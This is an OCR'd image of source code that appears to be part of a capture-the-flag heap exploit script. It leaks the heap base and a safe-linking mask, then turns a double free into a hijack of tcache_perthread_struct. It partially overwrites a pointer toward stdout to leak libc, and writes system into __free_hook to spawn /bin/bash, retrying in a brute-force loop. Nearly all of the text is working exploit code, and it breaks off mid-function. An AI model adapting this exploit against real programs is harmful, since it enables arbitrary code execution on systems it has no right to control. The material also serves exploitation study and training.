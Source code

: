 ```
    show()

    mask = u64(target.recvuntil("1.add",drop=True).ljust(8,'\x00'))
    #success("mask leaked: "+hex(mask))
    heap_base = mask << 12
    #success("heap_base: "+hex(heap_base))
    
    #double free
    edit(p64(0xdeadbeef)*2) 
    delete()
    
    edit(p64(mask ^ (heap_base + 0x10))+p64(0))
    add(0x58,"a\n")
    
    # hijack tcache_perthread_struct
    # overwrite tcache->counts[0x290]
    # 0x27 * 2 = 0x4E
    add(0x58,"\x00"*0x4E + p16(8)) 
    delete()
    
    # now tcache_perthread_struct is in unsortedbin 
    # let's split the chunk into our desired form
    
    # remember to carefully set up tcache->count as we proceed
    add(0x48,p16(0)*3+p16(1)+p16(0)*2+p16(1)+p16(0))
    add(0x30,p64(0xdeadbeef)*2)
    #partial overwrite entry[0x50] to stdout
    add(0x18,p64(0)+"\xc0\x96")
    # fxxk stdout
    add(0x48,p64(0xfbad1800)+p64(0)*3+"\x00") 

# operation after bruteforcing succeed
def pwn2(leak):
    libc_base = leak - 0x1e4744
    success("libc_base leaked: "+hex(libc_base))
    
    free_hook = libc_base + 0x1e6e40
    system = libc_base + 0x503c0
    
    # overwrite entry[0x80] to free_hook
    add(0x18,p64(free_hook-0x10)) 
   
    # write system to free_hook
    add(0x78,"/bin/bash".ljust(16,"\x00") + p64(system)) 
    #BOOOOM!
    delete()
    
    target.interactive()

def main():
    while True:
        try:
            init()
            pwn()
            leak = target.recvuntil('add')
            if "\x7f" in leak:
                leak = u64(leak[1:7].ljust(8,"\x00"))
                success("stdout leak: "+hex(leak))
                pwn2(leak)
            else:
                print("FXXK!")
                target.close()
        except:
```